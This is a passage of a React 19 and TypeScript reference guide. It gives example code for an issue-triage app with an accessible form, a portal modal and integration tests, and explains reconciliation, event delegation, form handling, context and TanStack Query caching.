      {toasts.map((toast) => (
        <div key={toast.id} role={toast.tone === 'error' ? 'alert' : 'status'}>
          <span>{toast.message}</span>
          <button
            type="button"
            aria-label={`Dismiss ${toast.message}`}
            onClick={() => dismissToast(toast.id)}
          >
            Close
          </button>
        </div>
      ))}
    </aside>
  );
}
```

### 3.4 React 19 `ref`-as-Prop Input, Portal Modal & Error Fallback

```tsx
// src/components/TextInput.tsx
import { useId, type ComponentProps } from 'react';

interface TextInputProps extends ComponentProps<'input'> {
  label: string;
  error?: string;
}

// React 19: `ref` arrives directly in props without forwardRef wrapper
export function TextInput({ label, error, id, ref, ...inputProps }: TextInputProps) {
  const generatedId = useId();
  const inputId = id ?? generatedId;
  const errorId = `${inputId}-error`;

  return (
    <div className="field">
      <label htmlFor={inputId}>{label}</label>
      <input
        ref={ref}
        id={inputId}
        aria-invalid={error ? true : undefined}
        aria-describedby={error ? errorId : undefined}
        {...inputProps}
      />
      {error && (
        <p id={errorId} role="alert" className="field-error">
          {error}
        </p>
      )}
    </div>
  );
}
```

```tsx
// src/components/ConfirmModal.tsx
import { useEffect, useId, useRef, type MouseEvent, type ReactNode } from 'react';
import { createPortal } from 'react-dom';

interface ConfirmModalProps {
  isOpen: boolean;
  title: string;
  confirmLabel: string;
  onConfirm: () => void;
  onCancel: () => void;
  children: ReactNode;
}

export function ConfirmModal({
  isOpen,
  title,
  confirmLabel,
  onConfirm,
  onCancel,
  children,
}: ConfirmModalProps) {
  const titleId = useId();
  const cancelBtnRef = useRef<HTMLButtonElement>(null);
  const previousFocusRef = useRef<HTMLElement | null>(null);

  useEffect(() => {
    if (!isOpen) return;
    previousFocusRef.current = document.activeElement as HTMLElement | null;
    cancelBtnRef.current?.focus();

    function handleKeyDown(e: KeyboardEvent) {
      if (e.key === 'Escape') onCancel();
    }

    document.addEventListener('keydown', handleKeyDown);
    return () => {
      document.removeEventListener('keydown', handleKeyDown);
      previousFocusRef.current?.focus();
    };
  }, [isOpen, onCancel]);

  if (!isOpen) return null;

  // Critical: stopPropagation prevents clicks inside the Portal from bubbling through React's Fiber tree
  function stopReactTreeBubble(e: MouseEvent) {
    e.stopPropagation();
  }

  return createPortal(
    <div
      className="modal-backdrop"
      onClick={(e) => {
        e.stopPropagation();
        if (e.target === e.currentTarget) onCancel();
      }}
    >
      <div
        role="dialog"
        aria-modal="true"
        aria-labelledby={titleId}
        onClick={stopReactTreeBubble}
        className="modal-panel"
      >
        <h2 id={titleId}>{title}</h2>
        <div>{children}</div>
        <div className="modal-actions">
          <button ref={cancelBtnRef} type="button" onClick={onCancel}>
            Cancel
          </button>
          <button type="button" onClick={onConfirm}>
            {confirmLabel}
          </button>
        </div>
      </div>
    </div>,
    document.body
  );
}
```

```tsx
// src/components/ErrorFallback.tsx
import type { FallbackProps } from 'react-error-boundary';

export function ErrorFallback({ error, resetErrorBoundary }: FallbackProps) {
  const message = error instanceof Error ? error.message : 'Unexpected workspace error';
  return (
    <section role="alert" className="error-panel">
      <h2>Workspace Error</h2>
      <p>{message}</p>
      <button type="button" onClick={resetErrorBoundary}>
        Retry Workspace
      </button>
    </section>
  );
}
```

### 3.5 Accessible Form & Interactive List Components

```tsx
// src/components/IssueForm.tsx
import { useRef, useState, type FormEvent } from 'react';
import { createIssueSchema, type CreateIssueFormErrors } from '../schemas/issueSchema';
import { useCreateIssueMutation } from '../hooks/useIssues';
import { useToastActions } from '../context/ToastContext';
import type { IssueSeverity } from '../types/issue';
import { TextInput } from './TextInput';

export function IssueForm() {
  const titleInputRef = useRef<HTMLInputElement>(null);
  const fileInputRef = useRef<HTMLInputElement>(null);

  const [title, setTitle] = useState('');
  const [severity, setSeverity] = useState<IssueSeverity>('medium');
  const [assigneeEmail, setAssigneeEmail] = useState('');
  const [notifyWatchers, setNotifyWatchers] = useState(true);
  const [errors, setErrors] = useState<CreateIssueFormErrors>({});

  const createMutation = useCreateIssueMutation();
  const { pushToast } = useToastActions();

  async function handleSubmit(e: FormEvent<HTMLFormElement>) {
    e.preventDefault();

    const selectedFile = fileInputRef.current?.files?.[0] ?? null;
    const candidate = {
      title,
      severity,
      assigneeEmail,
      notifyWatchers,
      attachmentName: selectedFile ? selectedFile.name : null,
    };

    const parsed = createIssueSchema.safeParse(candidate);
    if (!parsed.success) {
      const nextErrors: CreateIssueFormErrors = {};
      for (const issue of parsed.error.issues) {
        const field = issue.path[0] as keyof CreateIssueFormErrors;
        if (!nextErrors[field]) nextErrors[field] = issue.message;
      }
      setErrors(nextErrors);
      if (nextErrors.title) titleInputRef.current?.focus();
      return;
    }

    setErrors({});
    try {
      await createMutation.mutateAsync(parsed.data);
      setTitle('');
      setSeverity('medium');
      setAssigneeEmail('');
      setNotifyWatchers(true);
      if (fileInputRef.current) fileInputRef.current.value = '';
      pushToast(`Created issue "${parsed.data.title}"`);
    } catch (err) {
      pushToast(
        err instanceof Error ? err.message : 'Unable to save issue',
        'error'
      );
    }
  }

  return (
    <form onSubmit={handleSubmit} noValidate aria-label="Create issue">
      <TextInput
        ref={titleInputRef}
        label="Issue Title"
        name="title"
        value={title}
        onChange={(e) => setTitle(e.target.value)}
        error={errors.title}
        placeholder="Checkout timeout on Stripe webhook"
        required
      />

      <TextInput
        label="Assignee Email"
        name="assigneeEmail"
        type="email"
        value={assigneeEmail}
        onChange={(e) => setAssigneeEmail(e.target.value)}
        error={errors.assigneeEmail}
        placeholder="oncall@company.example"
        required
      />

      <div className="field">
        <label htmlFor="issue-severity">Severity</label>
        <select
          id="issue-severity"
          value={severity}
          onChange={(e) => setSeverity(e.target.value as IssueSeverity)}
        >
          <option value="low">Low</option>
          <option value="medium">Medium</option>
          <option value="critical">Critical</option>
        </select>
      </div>

      <div className="field">
        <label htmlFor="issue-attachment">Diagnostic Log (Optional)</label>
        {/* File inputs are strictly uncontrolled in HTML/React */}
        <input id="issue-attachment" ref={fileInputRef} type="file" accept=".log,.txt,.json" />
      </div>

      <label className="checkbox-row">
        <input
          type="checkbox"
          checked={notifyWatchers}
          onChange={(e) => setNotifyWatchers(e.target.checked)}
        />
        <span>Notify on-call watchers</span>
      </label>

      <button type="submit" disabled={createMutation.isPending}>
        {createMutation.isPending ? 'Creating...' : 'Create Issue'}
      </button>
    </form>
  );
}
```

```tsx
// src/components/IssueList.tsx
import { useState } from 'react';
import {
  useDeleteIssueMutation,
  useIssuesQuery,
  useUpdateIssueStatusMutation,
} from '../hooks/useIssues';
import { useToastActions } from '../context/ToastContext';
import type { Issue, IssueSeverity, IssueStatus } from '../types/issue';
import { ConfirmModal } from './ConfirmModal';

export function IssueList({
  severityFilter,
}: {
  severityFilter: IssueSeverity | 'all';
}) {
  const { data: issues = [], isPending, isError, error, refetch } = useIssuesQuery();
  const updateStatus = useUpdateIssueStatusMutation();
  const deleteIssue = useDeleteIssueMutation();
  const { pushToast } = useToastActions();
  const [issuePendingDelete, setIssuePendingDelete] = useState<Issue | null>(null);

  if (isPending) return <p role="status">Loading issues...</p>;
  if (isError) {
    return (
      <div role="alert">
        <p>{error instanceof Error ? error.message : 'Failed to load issues'}</p>
        <button type="button" onClick={() => void refetch()}>
          Retry
        </button>
      </div>
    );
  }

  // Derived synchronously during render: zero duplicate state or sync effects
  const visibleIssues =
    severityFilter === 'all'
      ? issues
      : issues.filter((issue) => issue.severity === severityFilter);

  const openCount = visibleIssues.filter((i) => i.status === 'open').length;

  async function handleStatusChange(issue: Issue, nextStatus: IssueStatus) {
    try {
      await updateStatus.mutateAsync({ id: issue.id, status: nextStatus });
    } catch {
      pushToast(`Failed to update "${issue.title}"`, 'error');
    }
  }

  async function confirmDelete() {
    if (!issuePendingDelete) return;
    const target = issuePendingDelete;
    setIssuePendingDelete(null);
    try {
      await deleteIssue.mutateAsync(target.id);
      pushToast(`Deleted "${target.title}"`);
    } catch {
      pushToast(`Failed to delete "${target.title}"`, 'error');
    }
  }

  return (
    <section aria-label="Issue list">
      <p>
        Showing {visibleIssues.length} issues ({openCount} open)
      </p>
      {visibleIssues.length === 0 ? (
        <p>No matching issues found.</p>
      ) : (
        <ul>
          {visibleIssues.map((issue) => (
            <li key={issue.id}>
              <div>
                <strong>{issue.title}</strong> ({issue.severity}) — {issue.assigneeEmail}
                {issue.attachmentName && <span> [{issue.attachmentName}]</span>}
              </div>
              <div>
                <select
                  aria-label={`Status for ${issue.title}`}
                  value={issue.status}
                  onChange={(e) =>
                    void handleStatusChange(issue, e.target.value as IssueStatus)
                  }
                >
                  <option value="open">Open</option>
                  <option value="triaged">Triaged</option>
                  <option value="resolved">Resolved</option>
                </select>
                <button
                  type="button"
                  onClick={() => setIssuePendingDelete(issue)}
                >
                  Delete
                </button>
              </div>
            </li>
          ))}
        </ul>
      )}

      <ConfirmModal
        isOpen={issuePendingDelete !== null}
        title="Confirm Issue Deletion"
        confirmLabel="Delete Permanently"
        onCancel={() => setIssuePendingDelete(null)}
        onConfirm={() => void confirmDelete()}
      >
        <p>
          Delete <strong>{issuePendingDelete?.title}</strong>? This action cannot be undone.
        </p>
      </ConfirmModal>
    </section>
  );
}
```

### 3.6 Application Shell, Root Entry (`createRoot` Error Callbacks) & Integration Tests

```tsx
// src/App.tsx
import { useState } from 'react';
import { QueryClient, QueryClientProvider } from '@tanstack/react-query';
import { ErrorBoundary } from 'react-error-boundary';
import { ToastProvider, ToastViewport } from './context/ToastContext';
import { ErrorFallback } from './components/ErrorFallback';
import { IssueForm } from './components/IssueForm';
import { IssueList } from './components/IssueList';
import type { IssueSeverity } from './types/issue';

export function createAppQueryClient() {
  return new QueryClient({
    defaultOptions: {
      queries: { retry: 1, refetchOnWindowFocus: false },
    },
  });
}

export function IssueWorkspace({ queryClient }: { queryClient: QueryClient }) {
  const [severityFilter, setSeverityFilter] = useState<IssueSeverity | 'all'>('all');

  return (
    <QueryClientProvider client={queryClient}>
      <ToastProvider>
        <main>
          <h1>Production Issue Triage</h1>
          <ErrorBoundary FallbackComponent={ErrorFallback}>
            <IssueForm />
            <div>
              <label htmlFor="severity-filter">Filter Severity</label>
              <select
                id="severity-filter"
                value={severityFilter}
                onChange={(e) =>
                  setSeverityFilter(e.target.value as IssueSeverity | 'all')
                }
              >
                <option value="all">All Severities</option>
                <option value="low">Low</option>
                <option value="medium">Medium</option>
                <option value="critical">Critical</option>
              </select>
            </div>
            <IssueList severityFilter={severityFilter} />
          </ErrorBoundary>
          <ToastViewport />
        </main>
      </ToastProvider>
    </QueryClientProvider>
  );
}
```

```tsx
// src/main.tsx
import { StrictMode } from 'react';
import { createRoot } from 'react-dom/client';
import { createAppQueryClient, IssueWorkspace } from './App';

const queryClient = createAppQueryClient();
const rootEl = document.getElementById('root');
if (!rootEl) throw new Error('Missing #root mount element');

createRoot(rootEl, {
  onCaughtError: (error, errorInfo) => {
    console.error('[React Caught ErrorBoundary]', error, errorInfo.componentStack);
  },
  onUncaughtError: (error, errorInfo) => {
    console.error('[React Uncaught Render Error]', error, errorInfo.componentStack);
  },
  onRecoverableError: (error, errorInfo) => {
    console.warn('[React Recoverable Hydration/Transition]', error, errorInfo.componentStack);
  },
}).render(
  <StrictMode>
    <IssueWorkspace queryClient={queryClient} />
  </StrictMode>
);
```

```tsx
// src/components/__tests__/IssueWorkspace.test.tsx
import { afterAll, afterEach, beforeAll, describe, expect, it } from 'vitest';
import { render, screen, waitFor, within } from '@testing-library/react';
import userEvent from '@testing-library/user-event';
import { http, HttpResponse } from 'msw';
import { setupServer } from 'msw/node';
import { QueryClient } from '@tanstack/react-query';
import { IssueWorkspace } from '../../App';
import type { CreateIssuePayload, Issue } from '../../types/issue';

let dbIssues: Issue[] = [
  {
    id: 'iss-1',
    title: 'Memory spike in worker pool',
    severity: 'critical',
    status: 'open',
    assigneeEmail: 'sre@company.example',
    notifyWatchers: true,
    attachmentName: null,
    createdAt: '2026-11-12T10:00:00.000Z',
  },
];

const server = setupServer(
  http.get('/api/issues', () => HttpResponse.json(dbIssues)),
  http.post('/api/issues', async ({ request }) => {
    const body = (await request.json()) as CreateIssuePayload;
    const created: Issue = {
      id: `iss-${dbIssues.length + 1}`,
      ...body,
      status: 'open',
      createdAt: new Date().toISOString(),
    };
    dbIssues = [created, ...dbIssues];
    return HttpResponse.json(created, { status: 201 });
  }),
  http.delete('/api/issues/:id', ({ params }) => {
    dbIssues = dbIssues.filter((i) => i.id !== params.id);
    return new HttpResponse(null, { status: 204 });
  })
);

beforeAll(() => server.listen({ onUnhandledRequest: 'error' }));
afterEach(() => {
  server.resetHandlers();
  dbIssues = [dbIssues[0]!];
});
afterAll(() => server.close());

function renderWorkspace() {
  const client = new QueryClient({
    defaultOptions: { queries: { retry: false } },
  });
  return render(<IssueWorkspace queryClient={client} />);
}

describe('IssueWorkspace integration behavior', () => {
  it('validates invalid fields with accessible alerts and focuses title input', async () => {
    const user = userEvent.setup();
    renderWorkspace();

    await screen.findByText(/Memory spike in worker pool/i);
    await user.type(screen.getByLabelText(/Issue Title/i), 'Bad');
    await user.type(screen.getByLabelText(/Assignee Email/i), 'not-an-email');
    await user.click(screen.getByRole('button', { name: /Create Issue/i }));

    const alerts = screen.getAllByRole('alert');
    expect(alerts.map((a) => a.textContent)).toEqual(
      expect.arrayContaining([
        'Title must contain at least 5 characters',
        'Enter a valid corporate email address',
      ])
    );
    expect(screen.getByLabelText(/Issue Title/i)).toHaveFocus();
  });

  it('submits valid issue optimistically and rolls back if server fails with 500', async () => {
    const user = userEvent.setup();
    server.use(
      http.post('/api/issues', () =>
        HttpResponse.json({ message: 'DB unavailable' }, { status: 500 })
      )
    );

    renderWorkspace();
    await screen.findByText(/Memory spike in worker pool/i);

    await user.type(screen.getByLabelText(/Issue Title/i), 'TLS cert rotation stalled');
    await user.type(screen.getByLabelText(/Assignee Email/i), 'sec@company.example');
    await user.click(screen.getByRole('button', { name: /Create Issue/i }));

    // Rolled back from cache after 500 error + toast alert rendered
    await waitFor(() => {
      expect(screen.queryByText(/TLS cert rotation stalled/i)).not.toBeInTheDocument();
    });
    expect(screen.getByRole('alert')).toHaveTextContent(/Failed to create issue \(500\)/i);
  });

  it('opens accessible portal confirmation modal and restores focus on cancel', async () => {
    const user = userEvent.setup();
    renderWorkspace();

    await screen.findByText(/Memory spike in worker pool/i);
    const deleteBtn = screen.getByRole('button', { name: /^Delete$/i });
    await user.click(deleteBtn);

    const dialog = screen.getByRole('dialog', { name: /Confirm Issue Deletion/i });
    expect(dialog).toHaveAttribute('aria-modal', 'true');
    const cancelBtn = within(dialog).getByRole('button', { name: /Cancel/i });
    expect(cancelBtn).toHaveFocus();

    await user.keyboard('{Escape}');
    expect(screen.queryByRole('dialog')).not.toBeInTheDocument();
    expect(deleteBtn).toHaveFocus();
  });
});
```

---
## 4. Complete Framework Reference & Edge Cases

### 4.1 Components, Props, Children, Composition & TypeScript Typing

A React component is a JavaScript function returning renderable output (`ReactNode`). Components receive an immutable `props` object from their parent—mutating `props` directly inside a component (`props.items.push(x)`) violates the Render Phase purity contract, breaks `React.memo` shallow equality checks, and introduces subtle bugs under React Compiler.

#### `StrictMode` Intentional Double-Invocation Diagnostics

Wrapping an application in `<StrictMode>` activates development-only stress checks (stripped automatically from production builds):
1. **Double Render Invocation**: Function component bodies, `useState`/`useReducer` lazy initializers, and `setState(prev => ...)` updater functions execute **twice** sequentially during development renders. If a render function mutates an external array (`cartItems.push(...)`), the duplicate call appends items twice—exposing impurity immediately.
2. **Double Effect Mount Cycle**: Every `useEffect` / `useLayoutEffect` runs `setup() -> cleanup() -> setup()` on initial mount so leaked WebSockets, unclosed intervals, or uncancelled fetches fail noisily in local development.
3. **Double Callback Ref Invocation**: Callback refs execute `ref(node) -> cleanup() -> ref(node)` to verify ref cleanup symmetry.

#### React 19 TypeScript Prop Signatures

Selecting precise TypeScript types prevents callers from passing non-renderable values or breaking HTML attribute pass-through:

| Type | Allows | When to Use |
|---|---|---|
| `React.ReactNode` | `ReactElement`, `string`, `number`, `boolean`, `null`, `undefined`, arrays, fragments | Standard type for `children` and arbitrary slot props (`header?: ReactNode`) |
| `React.ReactElement` / `JSX.Element` | Strictly a React element object (excludes strings/numbers/null) | When inspecting `element.props` or cloning via `cloneElement` (rare) |
| `React.ComponentProps<'button'>` | All native `<button>` attributes **including `ref` in React 19** (`Ref<HTMLButtonElement>`) | Building reusable UI primitives (`<Button>`, `<TextInput>`) wrapping DOM elements |
| `React.ComponentPropsWithoutRef<'div'>` | Native `<div>` attributes excluding `ref` | Legacy React 18 components or custom wrappers rejecting `ref` forwarding |
| `React.PropsWithChildren<P>` | Merges `P & { children?: ReactNode }` | Explicit optional children typing (many teams prefer declaring `children: ReactNode` explicitly when children are mandatory) |

#### Composition, Slots & Why Inheritance Is Avoided

Class inheritance hierarchies (`class PrimaryConfirmModal extends BaseDraggableModal`) tightly couple parent and child internal methods, conflict on lifecycle overrides, and make structural layout overrides rigid. React models UI extension strictly through **composition**:

1. **`children` Containment**: Pass arbitrary UI inside `<Card><MetricsPanel /></Card>`.
2. **Named Slots**: Pass React elements through named props (`<SplitLayout sidebar={<Nav />} content={<Table />} />`) when multiple distinct insertion zones exist.
3. **Render Optimization via `children` Reference Identity**: When a wrapper holding rapidly changing state (`scrollTop`, hover coordinates) accepts `{children}` as a prop from *above*, calling `setState` inside the wrapper re-executes the wrapper function—yet `props.children` holds the **exact same `ReactElement` object reference** created by the parent. React sees `oldElement === newElement` and skips reconciling the entire `children` subtree automatically without needing `React.memo` (see [[Programming/Frontend/React Patterns Guide|React Patterns Guide]]).

```tsx
// Fast by composition: dragging updates hoverY inside ScrollFrame without re-rendering <ExpensiveChart />
function ScrollFrame({ children }: { children: ReactNode }) {
  const [scrollY, setScrollY] = useState(0);
  return (
    <div onScroll={(e) => setScrollY(e.currentTarget.scrollTop)}>
      <header>Offset: {scrollY}px</header>
      {children}
    </div>
  );
}

export function DashboardPage() {
  return (
    <ScrollFrame>
      <ExpensiveChart />
    </ScrollFrame>
  );
}
```

#### Conditional Rendering Edge Cases

- **Early Return Guard**: Return `null` or a skeleton component before expensive derivations when required domain entities are missing.
- **Logical `&&` Left-Hand Side Coercion**: JavaScript evaluates `0 && <Banner />` to `0`, and React renders the literal number `0` into the DOM. Always coerce the left-hand expression to a strict boolean (`count > 0 && <Banner />` or `Boolean(items.length) && <Banner />`).
- **Enum / State-Machine Lookup Tables**: Replace deeply nested ternaries (`status === 'idle' ? ... : status === 'loading' ? ...`) with an explicit `Record<Status, ReactNode>` or switch helper so TypeScript exhaustiveness checking catches missing states at compile time.

---

### 4.2 Lists, $O(n)$ Reconciliation Heuristics & `key` Stability Invariants

General tree-diffing algorithms between two arbitrary trees of size $n$ require $O(n^3)$ operations—prohibitive for 10,000-node UIs. React reduces reconciliation to $O(n)$ via three strict heuristics:

1. **Cross-Type Destruction**: Elements of different `type`s (`<div>` replaced by `<section>`, or `<LoginForm />` replaced by `<SignupForm />`) never attempt partial attribute diffing. React immediately schedules `ChildDeletion` on the entire old Fiber subtree—unmounting child components, detaching refs, running effect cleanups, destroying DOM nodes, and resetting all nested hook states—then mounts the new subtree from zero.
2. **Same-Type Attribute Patching**: When `oldFiber.type === newElement.type` on a host element (`<div>` -> `<div>`), React retains the live `HTMLElement` in `stateNode`, diffs only changed attributes (`className`, `aria-expanded`, `style`), and continues descending recursively into children.
3. **Two-Pass Keyed Array Reconciliation (`reconcileChildrenArray`)**: When diffing sibling arrays, React executes Pass 1 linearly (`index = 0..k`) matching elements while `oldFiber.key === newElement.key`. The first mismatch exits Pass 1 and triggers Pass 2: React inserts remaining old Fibers into a hash `Map<key | index, FiberNode>`, looks up each remaining new element in $O(1)$ by `(key ?? index)`, reuses matched Fibers (moving DOM nodes via `insertBefore` when relative order shifted), and marks unreferenced old Fibers for deletion.

#### Key Failure Modes & Intentional State Reset

| Key Pattern | Runtime Fiber Effect | Production Symptom |
|---|---|---|
| `key={row.id}` (Immutable DB/UUID) | Pairs Fiber state and DOM nodes strictly to entity identity regardless of sort, prepend, or filter | Correct state preservation across all dynamic list operations |
| `key={index}` | Pairs Fiber `0` to array slot `0`. Prepending a row shifts every item's index by `+1` while leaving Fiber `0`'s hook state and uncontrolled `<input>` DOM value on the new row `0` | Checkbox states, accordion expansion, and typed `<input>` values silently jump to the wrong rows |
| `key={Math.random()}` / `key={crypto.randomUUID()}` | Produces a brand-new key on every single render (`oldMap.get(newKey) === undefined`) | Forces unmount + remount of every child row on every render—destroying typing focus, scroll position, CSS transitions, and crashing INP |
| `key={activeRecordId}` on a form/editor | Intentionally forces React Heuristic #1/#3 unmount + remount when switching between records | Cleanly discards unsaved local `useState` drafts and uncontrolled inputs without needing error-prone `useEffect` reset logic |

> [!danger] Nested Component Declarations Cause Per-Keystroke Unmounts
> Declaring `function Row({ item }) { ... }` **inside** `function ParentList() { ... }` allocates a brand-new JavaScript function reference on every render of `ParentList`. Because `prevFiber.type !== nextElement.type` (distinct function object identities), Heuristic #1 unmounts and remounts every single `<Row />` on every parent state update—destroying `<input>` focus on every keystroke and resetting child hooks continuously. Always hoist subcomponents to module scope.

---

### 4.3 SyntheticEvent Delegation, Portal Bubbling & Forms Reference

#### SyntheticEvent Architecture & Root Delegation

React does not attach native `addEventListener` handlers to individual DOM nodes returned by JSX (`<button onClick={...}>`). Instead, when `createRoot(container)` initializes, React attaches **one** delegated event listener per supported event type directly onto the root `container` element (prior to React 17, React attached them to `document`, which broke embedded multi-version React apps).



When a user clicks a `<button>`:
1. The native DOM event bubbles from `<button>` up to the React `container` root.
2. React looks up the target `FiberNode` attached via an internal DOM property (`__reactFiber$...`), collects all `onClickCapture` (top-down) and `onClick` (bottom-up) callbacks along the `.return` Fiber ancestor chain, and wraps the browser event in a `SyntheticEvent` normalizing cross-browser inconsistencies (`target`, `currentTarget`, `preventDefault()`, `stopPropagation()`).
3. **Event Pooling Removed**: React 16 recycled `SyntheticEvent` objects via a pool (`e.target` became `null` inside `setTimeout` unless `e.persist()` was called). React 17+ eliminated event pooling completely; `SyntheticEvent` properties remain readable inside async callbacks without `e.persist()`.
4. **`e.stopPropagation()` vs `e.nativeEvent.stopImmediatePropagation()`**: Calling `e.stopPropagation()` halts bubbling up the React Fiber ancestor chain and calls native `stopPropagation()`. However, if a non-React third-party library attached a native listener on `document` or `container`, `e.stopPropagation()` does not cancel sibling listeners already registered on the same `container`—use `e.nativeEvent.stopImmediatePropagation()` when blocking external native listeners on the same element.

#### The `createPortal` Event Bubbling Trap

`createPortal(children, document.body)` mounts the physical DOM subtree into `document.body`, **outside** the parent component's DOM container. However, inside React's Fiber tree, the Portal's `.return` pointer still points to the React parent component where `<Modal />` was rendered.

Consequently, clicking a `<button>` inside a `createPortal` dialog bubbles through **React's Fiber tree** to any `onClick` handler on the parent React card—even though the DOM click never passed through the parent card's `<div>`! Always call `e.stopPropagation()` on the portal's backdrop/panel wrapper when wrapping clickable cards or rows that open modals.

#### Complete Controlled vs Uncontrolled Forms & Accessibility Reference

| Form Mechanism | Source of Truth | Re-render Behavior | Appropriate Use Cases |
|---|---|---|---|
| **Controlled Input** (`value={v}` + `onChange`) | React state | Re-renders component on every input change | Live character counters, masked/formatted inputs, immediate cross-field disabling, dynamic validation feedback |
| **Uncontrolled Input** (`defaultValue={v}` + `FormData` / `ref`) | DOM `HTMLInputElement.value` | Zero re-renders while typing | High-field-count forms, React 19 `<form action={fn}>` with `useActionState`, read-on-submit forms |
| **File Input** (`<input type="file">`) | Browser `FileList` | Strictly uncontrolled (security restriction prevents setting `value` programmatically) | Read via `e.currentTarget.files` or `ref.current?.files`, or directly from `FormData` |
| **Checkbox / Multi-Select** | `checked` + `onChange` (`e.target.checked`) or `FormData.getAll(name)` | Controlled or Uncontrolled | Use `FormData.getAll('tags')` in uncontrolled forms to collect all checked checkbox values automatically |

**React 19 Native Form Actions & Shared Client/Server Zod Validation**: Passing a function directly to `<form action={handleAction}>` automatically prevents full-page reload, serializes all named inputs into `FormData` (including multi-checkbox groups via `formData.getAll('tags')` and file inputs via `formData.get('attachment')`), invokes `handleAction(formData)` inside a React Transition, and **automatically resets uncontrolled form fields** upon completion. Sharing a single Zod schema between client validation and the backend endpoint eliminates validation drift:

```tsx
// Shared schema module imported by both client form and API route / Server Action
import { z } from 'zod';

export const inviteUserSchema = z.object({
  email: z.string().trim().email('Valid work email required'),
  role: z.enum(['viewer', 'editor', 'admin']),
  sendWelcome: z.boolean(),
});

// Uncontrolled client form reading native FormData on submit (zero per-keystroke re-renders)
export function InviteUserForm({
  onInvite,
}: {
  onInvite: (payload: z.infer<typeof inviteUserSchema>) => Promise<void>;
}) {
  const [errorMsg, setErrorMsg] = useState<string | null>(null);

  async function submitAction(formData: FormData) {
    const parsed = inviteUserSchema.safeParse({
      email: String(formData.get('email') ?? ''),
      role: String(formData.get('role') ?? 'viewer'),
      sendWelcome: formData.get('sendWelcome') === 'on',
    });
    if (!parsed.success) {
      setErrorMsg(parsed.error.issues[0]?.message ?? 'Invalid input');
      return;
    }
    setErrorMsg(null);
    await onInvite(parsed.data);
  }

  return (
    <form action={submitAction}>
      <label htmlFor="invite-email">Email</label>
      <input id="invite-email" name="email" type="email" defaultValue="" required />
      <label htmlFor="invite-role">Role</label>
      <select id="invite-role" name="role" defaultValue="viewer">
        <option value="viewer">Viewer</option>
        <option value="editor">Editor</option>
        <option value="admin">Admin</option>
      </select>
      <label>
        <input name="sendWelcome" type="checkbox" defaultChecked />
        Send welcome email
      </label>
      {errorMsg && <p role="alert">{errorMsg}</p>}
      <button type="submit">Send Invite</button>
    </form>
  );
}
```

Pair native form actions with `useActionState` and `useFormStatus` for sequential submit queueing and pending button state (see [[Programming/Frontend/React Hooks Guide|React Hooks Guide]]).

**Non-Negotiable Form Accessibility Invariants**:
1. Every `<input>`, `<select>`, and `<textarea>` must bind programmatically to a visible `<label htmlFor={id}>` (generated safely with `useId()`) or `aria-label`.
2. Invalid inputs must expose `aria-invalid="true"` and link to their error text node via `aria-describedby={errorId}` so screen readers read the validation reason upon focusing the field.
3. Error messages injected dynamically on submit should carry `role="alert"` (assertive live region) or focus the first invalid field programmatically (`firstInvalidRef.current?.focus()`).
4. Never use clickable `<div onClick={...}>` for actions—use native `<button type="button">` (or `<button type="submit">`) to preserve keyboard `Enter`/`Space` activation, focus ring navigation, and screen reader role announcements automatically.

---

### 4.4 State Architecture: Derived State, Context Internals & Server Cache

#### Deriving State vs Redundant Synchronization

Every piece of state stored via `useState` represents an independent axis of mutability. Storing computed derivatives (`fullName`, `filteredList`, `selectedCount`, `canSubmit`) in separate `useState` hooks updated by `useEffect` guarantees:
- **Double Render Penalty**: Render 1 commits stale derived values -> post-paint `useEffect` fires `setDerived` -> Render 2 re-renders the tree.
- **Torn Intermediate Frame**: Users briefly flash invalid UI (e.g., `$0.00` total next to 3 cart items).

Compute derivatives inline during render; wrap with `useMemo` **only** when profiling confirms the transformation costs `> 1–2ms` or feeds a `React.memo` child.

#### Lifting State Up vs Colocation

- **Lift State Up** to the lowest common ancestor only when two sibling subtrees must read/mutate the exact same synchronized slice (e.g., a search box and its sibling results table).
- **Push State Down (Colocation)**: Never store dialog `isOpen`, dropdown hover state, or transient tooltip coordinates in a top-level `<App />` component. Moving local state down into a dedicated leaf wrapper prevents unrelated siblings from reconciling on every toggle.

#### Context Propagation Internals & Selector Workarounds

When `<MyContext.Provider value={nextValue}>` renders and `!Object.is(prevValue, nextValue)`, React runs `propagateContextChange`: it traverses the entire Fiber subtree below the Provider and schedules a forced update on **every Fiber node whose `dependencies` list includes `MyContext`**—**explicitly bypassing `React.memo` bailouts** on intermediate wrapper components.

Three architectural patterns neutralize Context render storms:
1. **Never Pass Inline Objects**: `<AuthContext.Provider value={{ user, login }}>` creates a new object reference on every parent render. Always memoize or hold a stable action container (`const [actions] = useState(() => ({ login, logout }))`).
2. **Split State and Actions Contexts**: Components calling only `useToastActions()` never subscribe to `ToastStateContext`, remaining completely immune when toast arrays change.
3. **External Selector Stores (`Zustand` / `Jotai`)**: Powered by `useSyncExternalStore`, selector subscriptions (`useOrderStore(s => s.selectedId)`) run equality checks (`Object.is`) on the *returned slice* before scheduling a React render—so updating `orderBook.bids` never wakes components subscribed solely to `selectedId`.

#### Client UI State vs URL State vs TanStack Query Server Cache

Server responses cached in the browser differ fundamentally from synchronous UI state: remote data belongs to a shared backend database, expires immediately after fetch, requires deduplication when 3 components mount requesting `/api/user`, and needs cache eviction (`gcTime`) when unmounted routes leave memory.

**TanStack Query Core Mechanics**:
- **`queryKey`**: Deterministic hierarchical cache key (`['issues', { status, page }]`). Changing any serializable field triggers automatic cache lookup + background refetch.
- **`staleTime` vs `gcTime`**: `staleTime` (default `0ms` in v5) determines how long cached data stays fresh without triggering a background refetch on mount/window focus. `gcTime` (default `5 minutes`) determines how long *inactive* cache entries (zero mounted observers) remain in RAM before garbage collection.
- **Structural Sharing**: When background refetch JSON returns, TanStack Query recursively compares old vs new data and preserves original object references for unchanged sub-objects/arrays, preventing downstream `React.memo` and `useMemo` invalidation even when network payloads are fetched periodically.

---

### 4.5 Error Boundaries, Portals & Suspense Streaming

#### Error Boundaries (`ErrorBoundary` Class & `react-error-boundary`)

Function components cannot natively define `getDerivedStateFromError` or `componentDidCatch`. Implement a minimal reusable class Error Boundary or adopt `react-error-boundary` for `resetKeys` and `useErrorBoundary()` imperative forwarding:

```tsx
// 1. Minimal custom class Error Boundary
import { Component, type ErrorInfo, type ReactNode } from 'react';

interface BoundaryProps {
  fallback: ReactNode;
  onError?: (error: Error, info: ErrorInfo) => void;
  children: ReactNode;
}

interface BoundaryState {
  hasError: boolean;
}

export class AppErrorBoundary extends Component<BoundaryProps, BoundaryState> {
  state: BoundaryState = { hasError: false };

  static getDerivedStateFromError(): BoundaryState {
    // Pure Render-Phase state transition
